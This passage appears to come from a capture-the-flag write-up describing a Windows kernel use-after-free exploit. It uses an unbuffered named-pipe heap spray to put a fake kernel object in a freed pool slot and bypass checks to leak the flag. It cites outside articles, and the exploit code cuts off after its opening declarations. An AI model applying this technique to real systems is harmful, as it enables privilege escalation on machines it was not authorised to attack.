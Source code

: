 The first 0x48 bytes consist of the following header data [Courtesy of Wetw0rk](https://wetw0rk.github.io/posts/0x03-approaching-the-modern-windows-kernel-heap/)
```
{
    LIST_ENTRY QueueEntry;
    ULONG DataEntryType;
    PIRP Irp;
    ULONG QuotaInEntry;
    PSECURITY_CLIENT_CONTEXT ClientSecurityContext;
    ULONG DataSize;
} NP_DATA_QUEUE_ENTRY, *PNP_DATA_QUEUE_ENTRY;

```

Which doesnt work because we need the DataEntryType to be our PID.  So i continued my search attempting to find a spray that fully controls the data. Eventually i found [this article](https://medium.com/reverence-cyber/cve-2023-36802-mssksrv-sys-local-privilege-escalation-reverence-cyber-d54316eaf118) where robel campbell uses a similar technique leveraging named pipes but by setting them to be unbuffered named pipes you fully control the data and the size of the allocation. He also included code showing exactly how to perform the spray. Please check that article for the full writeup on the technique.

# Exploit

After some trial and error debugging using !pool and !poolused i got the size of the allocations to match up perfectly. I was able to get my kernel object to be replaced by data we have full control over.
Then i set the correct pid value as well as the address to point to a buffer we allocate. Below we can see the spot being taken by our fake object.

Original allocation before being freed.

<img width="618" height="461" alt="image" src="https://github.com/user-attachments/assets/d83028c7-0c96-442c-9365-0dc1fe217f0c" />

The state of the pool after our heap spray fills the empty spot with our fake object.

<img width="830" height="466" alt="image" src="https://github.com/user-attachments/assets/a5b3af24-74db-4737-97f2-2abc12496464" />

Our fake object with correct variables to bypass checks and exfiltrate the flag.

<img width="511" height="182" alt="image" src="https://github.com/user-attachments/assets/092503a1-196b-4054-a15b-554564200371" />


Below is the full exploit code with comments
```cpp
#include <stdio.h>
#include <Windows.h>
#include <assert.h>

typedef struct _IO_STATUS_BLOCK {
    union {
        NTSTATUS Status;
        PVOID    Pointer;
    };
    ULONG_PTR Information;
} IO_STATUS_BLOCK, * PIO_STATUS_BLOCK;

typedef NTSTATUS (*NtFsControlFile)(
    IN HANDLE               FileHandle,
    IN HANDLE               Event OPTIONAL,
    IN VOID* ApcRoutine OPTIONAL,
    IN PVOID                ApcContext OPTIONAL,
    OUT PIO_STATUS_BLOCK    IoStatusBlock,
    IN ULONG                FsControlCode,
    IN PVOID                InputBuffer OPTIONAL,
    IN ULONG                InputBufferLength,
```